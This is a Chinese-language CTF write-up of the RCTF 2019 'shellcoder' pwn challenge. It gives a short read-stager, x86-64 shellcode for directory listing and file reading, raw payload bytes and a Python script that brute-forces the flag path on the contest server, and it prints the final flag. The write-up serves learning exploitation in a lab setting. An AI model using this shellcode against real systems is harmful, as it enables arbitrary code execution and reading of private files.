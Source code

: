 ```yaml
---
layout:     post
title:      "Rctf 2019"
date:       2019-05-20
author:     "Ambi9u0us"
catalog: true
tags:
    - ctf
    - Writeup
    - RCTF 2019
    - Pwn
typora-root-url: ..
---
```


# RCTF 2019 Writeup

## 前言

这次RCTF2019感觉好难，一个原因就在于看了几道题感觉都要会熟练编写使用脚本才行，比如我最终做出来的`shellcoder`，就涉及到一个自动化脚本的编写，而且最后做出来也有一部分的运气因素，真心感觉要学的东西还有很多。

## 题目分析

首先，用IDA分析一下shellcoder，主要函数如下：

![1558319328337](/img/in-post/1558319328337.png)

这个文件主要是调用syscall实现了sys_alarm，sys_read，sys_write，sys_mmap这四个函数。通过sys_mmap创建了一个7字节的空间，后面使用一大段的0xF4来进行截断，然后调用sys_read读取用户输入，通过Jumpto来运行读入的shellcode。

通过调试发现，执行用户输入的shellcode时，除了`rdi`寄存器不为0，其他寄存器都被置0，故构造shellcode的相关汇编代码为：

```assembly
dec edx
xchg rsi,rdi
syscall
```

在当前情境下，这三条代码实现了`sys_read`的功能，这样我们就可以不受长度限制的再次发送shellcode，然后我发送了一段实现execv(‘bin/sh’)的shellcode，发现并没有get shell，猜测服务器上禁用了sys_execve的调用，所以必须换一种方式去获取flag。

这里想到的办法是通过调用sys_open，getdents和sys_write来实现ls的功能，汇编代码参考链接[在此](https://github.com/t00sh/assembly/blob/master/shellcodes/linux/x86-64/ls_syscall.asm)，可以参考该链接处的汇编代码来生成shellcode，生成shellcode的命令为：

```shell
nasm -f bin shellcode.asm -o shellcode && hexdump -v -e '"\\" "x" 1/1 "%02X"' shellcode; echo
```

最后我编写的asm脚本如下：

```assembly
BITS 64
	GLOBAL _start
_start:	
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	xor rax,rax
	mov al, 2
	lea rdi, [rel $ +0x4d] 
	xor rsi, rsi
	xor rdx, rdx
	syscall	
	mov rdi,rax 		
	xor rdx,rdx
	xor rax,rax
	mov dx, 0x120	
	sub rsp, rdx 	
	mov rsi, rsp 	
	mov al, 78 	
	syscall
	xchg rax,rdi
	xor rax, rax
	xor rdi,rdi
	inc eax
	inc edi
	mov rsi, rsp
	syscall
	xor rax, rax
	mov al, 60
	syscall
	xor rax, rax
	xor rdi,rdi
	inc eax
	inc edi
	mov rsi, rsp
	syscall
```

前面的nop是因为第一次实现sys_read后，跳转到达shellcode时前7个字节被覆盖，所以使用nop来保护shellcode被损坏，同时`lea rdi, [rel $ +0x4d]`这一行是学习Defcon ctf 2019的Hotel_California这道题的exp时get到的新姿势，感觉十分好用，其作用就是获取这段shellcode后的字符串起始地址，因为rdi就是这里面sys_open的文件名参数，这样在后面编写脚本的时候就可以愉快的用字符串表示，而不用考虑各种参数压栈时避免\x00字符截断的问题，还不用考虑ASCII码转换，所以最后的python脚本为：

```python
#!usr/bin/env python

from mypwn import *

def dirname(s):
	tt = []
	for i in xrange(24):
		if (s[8*i]=='\x18' and s[8*i+7]=='\x04' and s[8*i+2]!='\x2e'):
			k = s[8*i+2:8*i+6]
			#print k
			tt.append(k)
	return tt
	

code = '''
start:
    dec edx
	xchg rsi,rdi
    syscall
'''
shellcode=asm(code,os="linux",arch="amd64")

payload = '\x90\x90\x90\x90\x90\x90\x90\x90\x48\x31\xC0\xB0\x02\x48\x8D\x3D\x46\x00\x00\x00\x48\x31\xF6\x48\x31\xD2\x0F\x05\x48\x89\xC7\x48\x31\xD2\x48\x31\xC0\x66\xBA\x20\x01\x48\x29\xD4\x48\x89\xE6\xB0\x4E\x0F\x05\x48\x97\x48\x31\xC0\x48\x31\xFF\xFF\xC0\xFF\xC7\x48\x89\xE6\x0F\x05\x48\x31\xC0\xB0\x3C\x0F\x05\x48\x31\xC0\x48\x31\xFF\xFF\xC0\xFF\xC7\x48\x89\xE6\x0F\x05'
a = ['rrfh/lmc5/nswv/o1oc/v1jx','rrfh/lmc5/nswv/1rdr/zkz1','rrfh/lmc5/nswv/1rdr/cx4e','rrfh/lmc5/nswv/1rdr/rr3h','rrfh/lmc5/nswv/1rdr/qce0','rrfh/lmc5/nswv/yojm/rcij','rrfh/lmc5/nswv/yojm/gn5d','rrfh/lmc5/nswv/yojm/wst5','rrfh/lmc5/nswv/yojm/x2u3','rrfh/lmc5/kq2t/gk8t/0mdp']
aaa = 'flag'

f = open('1.txt',"rb+")
f2 = open('2.txt','rb+')
for pp in a:
	p, elf,libc = init_pwn('./shellcoder',('106.52.252.82',20002),'',[0x3ab],True)
	ru(':')
	sn(shellcode)
	p.send(payload+'flag/'+pp+'\x00')
	s = p.recv()
	if aaa in s:
		print pp
		p.close()
		break
	yy = dirname(s)
	if yy == []:
		print "failed"
		p.close()
		continue
	for xx in yy:
		a.append(pp+'/'+xx)
		f.write(pp+',')
		f2.write(",'"+pp+'/'+xx+"'")
	p.close()
f.close()
f2.close()
```

emmm，感觉非常不优雅，由于我写的这个脚本是采取广搜的方式不断找出各个路径名，但是这样导致的问题就是过多的socket交互会加重服务器地负担，所以现实情况就是每运行一小段时间就会被服务器断开连接，所以才有了脚本中我设置地两个文件`1.txt`和`2.txt`，前者用来记录已经查找过的路径，后者用来记录新生成的路径，所以我还是在手动解决问题，而且还是爆破，然后由于我一开始就是选择的rrfh这个文件夹，跑了一段时间后，在后面又好运地选到了脚本中我写入数组a中的路径，所以后面再使用这个脚本跑地时候，几分钟就跑出了结果，找到了最终地flag路径`flag/rrfh/lmc5/nswv/1rdr/zkz1/pim9/flag`，真是不容易。

再使用sys_open，sys_read，sys_write，就可以编写具有cat功能的asm脚本：

```assembly
BITS 64
	GLOBAL _start
_start:	
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	xor rax,rax
	xor rdx,rdx
	xor rsi,rsi

	;because after the shellcode is filename in shellcode2.py
	lea rdi, [rel $ +0x29]
	push 1
	pop rdx
	xor esi, esi
	push 2
	pop rax
	syscall
	mov rdi, rax
	xor eax, eax
	mov rsi, rsp
	push 0x7f
	pop rdx
	syscall
	mov rdx, rax
	push 1
	pop rax
	mov rdi, rax
	syscall
	;nasm -f bin shellcode.asm -o shellcode && hexdump -v -e '"\\" "x" 1/1 "%02X"' shellcode; echo
```

同样的shellcode后面要自己加上要读取的文件相对路径名，最后得到flag：

`rctf{1h48iegin3egh8dc5ihu}`

## 后记

根据官方的公告，这道题并不需要就行爆破多次交互，只需要发送一段足够健壮的shellcode就行，也就是说这些遍历搜索的功能应该在shellcode中就实现，这应该才是优雅的解决方式，无奈我的shellcode编写水平还是有限，所以第一时间还是选择了使用python脚本爆破，实在是😓。
